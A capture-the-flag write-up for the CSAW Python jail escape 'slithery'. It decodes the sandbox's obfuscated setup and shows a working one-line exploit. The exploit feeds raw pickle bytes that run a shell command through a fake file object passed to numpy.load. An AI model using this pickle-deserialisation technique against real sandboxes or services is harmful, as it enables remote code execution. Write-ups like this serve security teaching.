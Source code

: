 # slithery

Author: [roerohan](https://github.com/roerohan) and [thebongy](https://github.com/thebongy)

# Requirements

- Python

# Source

- [sandbox.py](./sandbox.py)

```
Setting up a new coding environment for my data science students. Some of them are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you help test this before I use it for my class? Two sandboxes should be better than one...

nc pwn.chal.csaw.io 5011
```

# Exploitation

This is a python jail escape challenge. In the source file, you see the following lines:

```py
final_cmd = """
uOaoBPLLRN = open("sandbox.py", "r")
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
uOaoBPLLRN.close()
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
exec(final_cmd)
```

Once you decode these, they basically translate to:

```py
sandbox = open("sandbox.py", "r")
l = ['from', 'base64', 'import', 'b64decode']
base64 = l[1]
b64decode = l[-1]
sandbox.close()
base64_b64decode = getattr(__import__(base64), b64decode)
numpy = __builtins__.__dict__[base64_b64decode(b'X19pbXBvcnRfXw==').decode('utf-8')](base64_b64decode(b'bnVtcHk=').decode('utf-8'))
```

So you can see which variable stores what. Now, the script executes the command you entered along with the list of commands shown above, with obfuscated variable names. 
<br />

There is of course a blacklist, part of which have written in [blacklist.py](./blacklist.py). We notice `numpy` has been imported. `numpy` has a function `numpy.load()`, which can take load a pickle payload from a file, given the option `allow_pickle=True`. We know that we can execute RCE using pickle payloads, which is exactly what we have to do.
<br />

The challenge however is to create a `file like object` for `numpy.load()`, since you don't have access to write a file on the system. Reading the documentation for `numpy.load()` you find out that a `file like object` is any object which has the attributes `read`, `readline`, and `seek`. You don't need to implement these properly, but they must return the expected type of data. We pass the pickle payload as bytes in the `lambda x` function. Here's how you can do all of this in 1 line, keeping the blacklist in consideration.


```py
$ nc pwn.chal.csaw.io 5011
EduPy 3.8.2
>>> obj=lambda: None; setattr(obj, HrjYMvtxwA('cmVhZA==').decode(), lambda x: bytes([128, 3, 99, 112, 111, 115, 105, 120, 10, 115, 121, 115, 116, 101, 109, 10, 113, 0, 88, 12, 0, 0, 0, 99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116, 113, 1, 133, 113, 2, 82, 113, 3, 46])); setattr(obj, HrjYMvtxwA('c2Vlaw==').decode(), lambda x,y:x); setattr(obj, HrjYMvtxwA('cmVhZGxpbmU=').decode(), lambda x: bytes([128, 3, 99, 112, 111, 115, 105, 120, 10, 115, 121, 115, 116, 101, 109, 10, 113, 0, 88, 12, 0, 0, 0, 99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116, 113, 1, 133, 113, 2, 82, 113, 3, 46]));RMbPOQHCzt.load(obj, allow_pickle=True)
flag{y4_sl1th3r3d_0ut}
```

The flag is:

```
flag{y4_sl1th3r3d_0ut}
```
